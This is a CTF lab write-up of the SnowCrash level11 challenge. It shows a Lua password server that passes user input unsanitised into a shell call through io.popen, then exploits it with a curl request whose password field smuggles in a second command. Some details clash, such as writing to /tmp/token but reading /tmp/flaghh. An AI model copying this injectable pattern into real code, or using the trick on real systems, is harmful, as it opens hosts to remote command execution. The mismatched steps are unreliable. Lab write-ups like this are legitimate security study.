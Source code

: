 # SnowCrash Level11

Let's go ahead and cat that level11.lua :
```
#!/usr/bin/env lua
local socket = require("socket")
local server = assert(socket.bind("127.0.0.1", 5151))

function hash(pass)
  prog = io.popen("echo "..pass.." | sha1sum", "r")
  data = prog:read("*all")
  prog:close()

  data = string.sub(data, 1, 40)

  return data
end


while 1 do
  local client = server:accept()
  client:send("Password: ")
  client:settimeout(60)
  local l, err = client:receive()
  if not err then
      print("trying " .. l)
      local h = hash(l)

      if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
          client:send("Erf nope..\n");
      else
          client:send("Gz you dumb*\n")
      end

  end

  client:close()
end
```

At first I satrted thinking of a way to decrypt that hash in order to give it as a Password.
But even if I did give it nothing would eventually happen.
Still I followed this idea. And then I realized it was a rabbit hole.
After that, I started executing the code online line by line.
I found out that whatever I pass in the password is gonna be used in the following line :
```
prog = io.popen("echo "...pass..." | sha1sum", "r")
```

It's like an RCE(remote code execution).
A simple way to solve this challenge is in the following :
Just print flag in a file and then read it, since we the output of echo command is redirected with a pipe to sha1sum.
```
level11@SnowCrash:~$ curl 'localhost:5151/?Password=";getflag > /tmp/token"'
Password: Erf nope..
level11@SnowCrash:~$ cat /tmp/flaghh
Check flag.Here is your token :
```
